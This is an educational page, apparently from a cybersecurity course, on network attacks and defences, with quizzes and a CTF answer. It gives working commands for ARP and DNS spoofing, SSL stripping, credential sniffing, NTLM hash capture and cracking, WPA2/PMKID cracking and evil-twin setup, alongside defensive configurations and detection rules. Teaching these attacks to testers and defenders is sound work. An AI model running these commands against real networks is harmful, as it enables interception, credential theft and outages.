





# Network Attacks & Defense

Network attacks target the protocols that glue systems together. Unlike application-layer vulnerabilities that require specific software to be running, network attacks exploit fundamental design decisions in TCP/IP, ARP, DNS, and Wi-Fi protocols that were built without security in mind. Understanding these attacks is critical for both penetration testers who assess internal networks and defenders who must detect and prevent them.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Networking Fundamentals](/cybersecurity/networking-fundamentals) | [Incident Response](/cybersecurity/incident-response-forensics)

::: danger Authorization Required
Network attacks affect all devices on the network, not just the target. ARP spoofing, MAC flooding, and MITM attacks can cause network outages. Only perform these attacks in isolated lab environments or with explicit written authorization from the network owner.
:::

---

## Attack Taxonomy



---

## ARP Spoofing / ARP Poisoning

ARP (Address Resolution Protocol) maps IP addresses to MAC addresses on a local network. ARP has no authentication — any device can claim to own any IP address, making it trivially exploitable.

### How ARP Spoofing Works



### ARP Spoofing with arpspoof

```bash
# Enable IP forwarding so traffic is relayed
echo 1 > /proc/sys/net/ipv4/ip_forward

# Poison victim's ARP cache (tell victim you are the gateway)
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1

# Poison gateway's ARP cache (tell gateway you are the victim)
# Run in second terminal:
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10

# Now capture traffic with Wireshark or tcpdump
tcpdump -i eth0 -w captured.pcap host 192.168.1.10
```

### ARP Spoofing with Ettercap

```bash
# Text-mode ARP poisoning between victim and gateway
ettercap -T -q -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1//

# With packet filtering (e.g., capture HTTP credentials)
ettercap -T -q -i eth0 -M arp:remote /192.168.1.10// /192.168.1.1// \
  -P autoadd

# GUI mode
ettercap -G
```

### ARP Spoofing Defense

| Defense | How It Works | Implementation |
|---------|-------------|----------------|
| **Static ARP entries** | Manually map IP to MAC | `arp -s 192.168.1.1 AA:BB:CC:DD:EE:FF` |
| **Dynamic ARP Inspection (DAI)** | Switch validates ARP against DHCP snooping table | Cisco: `ip arp inspection vlan 10` |
| **DHCP Snooping** | Switch tracks legitimate IP-MAC bindings | Cisco: `ip dhcp snooping` |
| **802.1X** | Port-based authentication before network access | RADIUS + switch config |
| **ArpWatch** | Monitors ARP table changes, sends alerts | `arpwatch -i eth0` |
| **VPN/IPsec** | Encrypts traffic regardless of network layer | WireGuard, IPsec tunnels |

---

## DNS Poisoning / DNS Spoofing

DNS spoofing redirects victims to attacker-controlled servers by providing false DNS responses.

### DNS Spoofing with Bettercap

```bash
# Start Bettercap
sudo bettercap -iface eth0

# In Bettercap console:
# Enable ARP spoofing first
set arp.spoof.targets 192.168.1.10
arp.spoof on

# Configure DNS spoofing
set dns.spoof.domains target.com,*.target.com
set dns.spoof.address 192.168.1.50  # attacker's IP
dns.spoof on
```

### DNS Cache Poisoning

Unlike local DNS spoofing, cache poisoning targets DNS resolvers to affect many users.



### DNS Defense

| Defense | Protection Against | Implementation |
|---------|-------------------|----------------|
| **DNSSEC** | Cache poisoning, spoofing | DNS zone signing with RRSIG records |
| **DNS over HTTPS (DoH)** | Eavesdropping, MITM | Configure in browser or OS resolver |
| **DNS over TLS (DoT)** | Eavesdropping, MITM | Configure systemd-resolved or Stubby |
| **Response Rate Limiting** | DNS amplification | `rate-limit` in BIND/Unbound config |
| **Query logging** | Detection | Log all DNS queries in SIEM |
| **Split DNS** | Information leakage | Separate internal/external DNS views |

---

## Man-in-the-Middle (MITM) Attacks

MITM attacks position the attacker between two communicating parties to eavesdrop, modify, or inject traffic.

### Bettercap — Swiss Army Knife for MITM

```bash
# Full MITM attack with credential sniffing
sudo bettercap -iface eth0

# ARP spoofing + HTTP proxy
set arp.spoof.targets 192.168.1.0/24
arp.spoof on
set net.sniff.local true
net.sniff on

# SSL stripping (downgrade HTTPS to HTTP)
set http.proxy.sslstrip true
http.proxy on

# Capture credentials from HTTP traffic
set net.sniff.regexp .*password.*
net.sniff on

# JavaScript injection
set http.proxy.script /path/to/inject.js
http.proxy on

# Caplets (automation scripts)
# Example: hstshijack caplet for HSTS bypass
hstshijack/hstshijack
```

### mitmproxy — Programmable MITM Proxy

```bash
# Start mitmproxy in transparent mode
mitmproxy --mode transparent --showhost

# Start with web interface
mitmweb --mode transparent

# Script to log all POST data
# save as log_posts.py
```

```python
# mitmproxy script: log_posts.py
from mitmproxy import http

def request(flow: http.HTTPFlow):
    if flow.request.method == "POST":
        print(f"[POST] {flow.request.pretty_url}")
        if flow.request.content:
            print(f"  Body: {flow.request.content.decode('utf-8', errors='ignore')}")
```

```bash
# Run with script
mitmproxy --mode transparent -s log_posts.py
```

### Responder — LLMNR/NBT-NS/mDNS Poisoning

On Windows networks, when DNS resolution fails, the system falls back to LLMNR and NBT-NS broadcasts. Responder answers these broadcasts and captures NTLMv2 hashes.

```bash
# Start Responder (on attacker machine within the network)
sudo responder -I eth0 -rdwv

# Responder will capture NTLMv2 hashes when:
# - A user mistypes a hostname
# - A share path doesn't resolve via DNS
# - A GPO references a non-existent server

# Captured hashes look like:
# [SMB] NTLMv2-SSP Hash: DOMAIN\user::DOMAIN:challenge:response
# Save and crack with hashcat:
hashcat -m 5600 ntlmv2_hashes.txt /path/to/wordlist.txt
```

---

## VLAN Hopping

VLANs are often trusted as security boundaries, but they can be bypassed.

### Switch Spoofing (DTP Exploitation)

```bash
# If switch port has DTP enabled (default on many Cisco switches),
# attacker can negotiate a trunk link and access all VLANs

# Using Yersinia
yersinia dtp -attack 1 -interface eth0

# With custom DTP frames using Scapy
```

```python
# VLAN hopping with Scapy (double tagging)
from scapy.all import *

# Double-tagged frame: outer tag = native VLAN, inner tag = target VLAN
packet = Ether(dst="ff:ff:ff:ff:ff:ff") / \
         Dot1Q(vlan=1) / \
         Dot1Q(vlan=100) / \
         IP(dst="10.100.0.1") / \
         ICMP()

sendp(packet, iface="eth0")
```

### VLAN Hopping Defense

```
# Cisco switch hardening
# Disable DTP on all access ports
switchport mode access
switchport nonegotiate

# Set unused ports to a dead VLAN
switchport access vlan 999

# Set native VLAN to something other than VLAN 1
switchport trunk native vlan 999

# Explicitly configure trunk ports
switchport mode trunk
switchport trunk allowed vlan 10,20,30
```

---

## MAC Flooding

Switches maintain a MAC address table mapping ports to MAC addresses. By flooding with random MACs, the table overflows and the switch falls back to hub behavior, broadcasting all traffic to all ports.

```bash
# MAC flooding with macof (part of dsniff)
macof -i eth0

# This generates ~155,000 MAC entries per minute
# Most switches have tables of 8,000-32,000 entries

# Defense: Port Security
# Cisco:
# switchport port-security
# switchport port-security maximum 2
# switchport port-security violation shutdown
# switchport port-security mac-address sticky
```

---

## Wi-Fi Attacks

### WPA2 Cracking with aircrack-ng

```bash
# Step 1: Put wireless adapter in monitor mode
sudo airmon-ng start wlan0

# Step 2: Scan for networks
sudo airodump-ng wlan0mon

# Step 3: Target a specific network and capture handshake
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Step 4: Force a deauthentication to capture handshake faster
# (in another terminal)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
# Wait for "WPA handshake: AA:BB:CC:DD:EE:FF" in airodump

# Step 5: Crack the handshake with a wordlist
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

# Alternative: Crack with hashcat (GPU-accelerated, much faster)
# Convert capture to hashcat format
hcxpcapngtool -o hash.hc22000 capture-01.cap
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
```

### PMKID Attack (Clientless WPA2 Cracking)

```bash
# No need to wait for a client handshake
# Attack the AP directly

# Capture PMKID
sudo hcxdumptool -i wlan0mon --enable_status=1 -o pmkid.pcapng \
  --filterlist_ap=AA:BB:CC:DD:EE:FF --filtermode=2

# Convert and crack
hcxpcapngtool -o pmkid.hc22000 pmkid.pcapng
hashcat -m 22000 pmkid.hc22000 /usr/share/wordlists/rockyou.txt
```

### Evil Twin Attack

An evil twin creates a rogue access point that mimics a legitimate network to capture credentials.



```bash
# Create evil twin with hostapd-wpe or wifiphisher

# Using wifiphisher (automated)
sudo wifiphisher --essid "CorpWiFi" -p firmware-upgrade

# Manual setup with hostapd:
# 1. Create hostapd.conf with target SSID
# 2. Start DHCP server (dnsmasq)
# 3. Start web server with captive portal
# 4. Deauth clients from legitimate AP
# 5. Clients reconnect to evil twin
# 6. Capture credentials from captive portal
```

### Wi-Fi Defense

| Defense | Protection Against | Implementation |
|---------|-------------------|----------------|
| **WPA3** | Dictionary attacks, KRACK | Upgrade AP firmware, use SAE |
| **802.1X / WPA-Enterprise** | PSK cracking | RADIUS server + per-user certificates |
| **WIDS/WIPS** | Rogue APs, deauth attacks | Cisco Wireless IPS, Kismet |
| **Strong PSK** | Brute force | 20+ character random passphrase |
| **Client isolation** | Lateral movement | Enable AP client isolation |
| **Management Frame Protection (MFP)** | Deauthentication attacks | Enable 802.11w |
| **Certificate-based auth** | Credential theft | Deploy EAP-TLS |

---

## Network Defense: IDS/IPS

### Snort / Suricata

```bash
# Suricata installation
sudo apt install suricata

# Update rules
sudo suricata-update

# Run in IDS mode
sudo suricata -c /etc/suricata/suricata.yaml -i eth0

# Custom rule: detect ARP spoofing
alert arp any any -> any any (msg:"Possible ARP Spoofing"; \
  arp.opcode:2; threshold: type both, track by_src, count 30, seconds 5; \
  sid:1000001; rev:1;)

# Custom rule: detect DNS exfiltration
alert dns any any -> any any (msg:"Possible DNS Tunneling"; \
  dns.query; content:"."; offset:50; \
  threshold: type both, track by_src, count 100, seconds 60; \
  sid:1000002; rev:1;)

# View alerts
tail -f /var/log/suricata/fast.log
cat /var/log/suricata/eve.json | jq 'select(.event_type=="alert")'
```

### Network Segmentation



| Zone | Purpose | Access Rules |
|------|---------|-------------|
| **DMZ** | Public-facing services | Internet to DMZ: 80, 443 only |
| **Application** | Business logic | DMZ to App: specific ports only |
| **Database** | Data storage | App to DB: DB ports only, no direct internet |
| **Management** | Admin access | VPN only, MFA required |
| **IoT/OT** | Devices, sensors | Isolated, monitored, no internet |

---

## Further Reading

- [Cybersecurity Overview](/cybersecurity/) — career paths and learning roadmap
- [Networking Fundamentals](/cybersecurity/networking-fundamentals) — TCP/IP, Nmap, Wireshark
- [Incident Response & Forensics](/cybersecurity/incident-response-forensics) — responding to network breaches
- [Security Tools Encyclopedia](/cybersecurity/security-tools) — tool comparisons and usage
- [Practical Cryptography](/cybersecurity/cryptography-practical) — SSL/TLS testing and attacks

---

::: tip Key Takeaway
- Network attacks exploit fundamental design flaws in protocols (ARP, DNS, LLMNR) that were built without authentication — they are not bugs, they are features misused
- ARP spoofing and LLMNR/NBT-NS poisoning are the most common internal network attack techniques and can be performed by any device on the LAN
- Defense requires layered controls: DAI, DHCP snooping, 802.1X, network segmentation, and IDS/IPS working together
:::

::: details Hands-On Lab
**Lab: Man-in-the-Middle Attack and Detection**

1. Set up a virtual network with three VMs: attacker (Kali), victim (Ubuntu/Windows), and gateway (pfSense or router)
2. On the attacker VM, enable IP forwarding and run ARP spoofing with `arpspoof` or Bettercap
3. Capture the victim's HTTP traffic with Wireshark while they browse a test website
4. Extract credentials from the captured traffic using Wireshark display filters
5. On the victim, verify the ARP cache is poisoned using `arp -a`
6. Set up Suricata on a monitoring interface and write a custom rule to detect the ARP spoofing
7. Implement Dynamic ARP Inspection on a managed switch (or simulate with arpwatch) and verify the attack is blocked
:::

::: details CTF Challenge
**Challenge: The Rogue Access Point**

A corporate network has reported intermittent connectivity issues. Users complain that their browser shows certificate warnings when visiting internal sites. Network captures show unusual ARP activity. Analyze the provided PCAP file and answer: What is the attacker's MAC address, which hosts were targeted, and what protocol was used for credential capture?

**Hints:**
1. Look for gratuitous ARP replies from a MAC that does not match the legitimate gateway
2. Check for DNS responses redirecting to unexpected IPs
3. The attacker is running SSL stripping

::: details Answer
Filter for `arp.opcode == 2` (ARP replies) and identify the MAC sending replies for the gateway IP that does not match the legitimate gateway MAC. The attacker's MAC is `AA:BB:CC:DD:EE:FF`. Targeted hosts are those whose ARP caches show the attacker's MAC for the gateway. DNS spoofing redirected `intranet.corp.local` to the attacker's IP. SSL stripping downgraded HTTPS to HTTP, capturing credentials in plaintext. Flag: `CTF{arp_poison_ssl_strip_detected}`.
:::
:::

::: warning Common Misconceptions
- **"VLANs provide security isolation"** — VLANs are a network management tool, not a security boundary. VLAN hopping via DTP exploitation or double tagging can bypass VLAN segmentation.
- **"HTTPS makes MITM attacks impossible"** — SSL stripping, certificate spoofing, and HSTS bypass techniques can defeat HTTPS in many scenarios. Certificate pinning and HSTS preloading are needed for strong protection.
- **"MAC filtering prevents unauthorized network access"** — MAC addresses are trivially spoofable. Use 802.1X with RADIUS for real port-based authentication.
- **"Wi-Fi WPA2 with a strong password is uncrackable"** — The PMKID attack can capture crackable material without any client interaction. WPA3 with SAE is the real fix.
:::

::: details Quiz
**1. In an ARP spoofing attack, what does the attacker send to the victim?**

a) A DNS query
b) A gratuitous ARP reply claiming to be the gateway
c) An ICMP redirect
d) A TCP RST packet

::: details Answer
b) The attacker sends gratuitous ARP replies to the victim, claiming that the gateway's IP address maps to the attacker's MAC address.
:::

**2. What is the primary defense against LLMNR/NBT-NS poisoning on Windows networks?**

a) Installing antivirus
b) Disabling LLMNR and NBT-NS via Group Policy
c) Using a VPN
d) Enabling Windows Firewall

::: details Answer
b) Disabling LLMNR and NBT-NS via Group Policy prevents the fallback name resolution that Responder exploits. Without these protocols active, there is nothing to poison.
:::

**3. What makes a PMKID attack different from a traditional WPA2 handshake capture?**

a) It is faster
b) It does not require a client to be connected
c) It works against WPA3
d) It uses brute force instead of dictionary attack

::: details Answer
b) The PMKID attack captures the PMKID from the AP's first EAPOL frame, so no client needs to be connected or deauthenticated. Traditional attacks require capturing a 4-way handshake between a client and AP.
:::

**4. What Cisco switch feature validates ARP packets against the DHCP snooping binding table?**

a) Port Security
b) Dynamic ARP Inspection (DAI)
c) BPDU Guard
d) Storm Control

::: details Answer
b) Dynamic ARP Inspection (DAI) validates ARP packets by checking them against the DHCP snooping binding table, dropping ARP packets with invalid IP-to-MAC mappings.
:::

**5. Why is DNS tunneling difficult to detect?**

a) It uses encrypted DNS
b) DNS traffic is rarely monitored and is almost always allowed through firewalls
c) It uses UDP which cannot be captured
d) It does not generate any logs

::: details Answer
b) DNS traffic is typically allowed through firewalls and often not inspected. DNS tunneling hides data inside DNS queries and responses, which appear as normal DNS traffic unless you analyze query lengths, entropy, and volume.
:::
:::

> **One-Liner Summary:** Network protocols were designed for trust, not security — and every unverified packet is an opportunity for the attacker in the middle.
